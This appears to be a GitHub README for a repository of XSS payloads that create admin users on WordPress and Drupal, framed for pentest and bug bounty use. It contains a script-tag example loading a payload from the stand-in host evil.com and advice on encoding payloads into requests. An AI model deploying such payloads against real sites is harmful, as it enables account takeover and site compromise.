 # Weaponised XSS Payloads
_XSS payloads designed to turn alert(1) into P1._

## The Blog Post
This repo was released alongside a blogpost titled "How to Upgrade Your XSS Bugs from Medium to Critical" https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4

## What is this?

In this repository you will find a bunch of JavaScript files which can be loaded into an XSS payload in order to perform sensitive functions on popular CMS platforms in the context of the victim's browser. This can help to chain a plain old XSS bug into something more critical, like an account takeover.

This is perfect for beefing up the severity of a pentest or bug bounty report by demonstrating real security impact.

Currently, there are only two payloads, one for adding an admin user in Wordpress, and one for adding an admin user in Drupal. There are plenty more to come, if you can help out - pull requests are welcome!

## How To

The simplest way to use these payloads is to host them somewhere and load them into the src attribute of a script tag for your XSS payload like this:

```
<script src="http://evil.com/wordpress_create_admin_user.js"></script>
```

Alternatively, depending on the context and length of the payload, it can sometimes be [minified](https://javascript-minifier.com/), [encoded](https://eve.gd/2007/05/23/string-fromcharcode-encoder/) and then just included directly into the request.

## Credits

[This article](https://www.shift8web.ca/2018/01/craft-xss-payload-create-admin-user-in-wordpress-user/) from Shift8 is what inspired me to make this repo. The JS in the article has a couple of minor typos but the concepts are spot on.

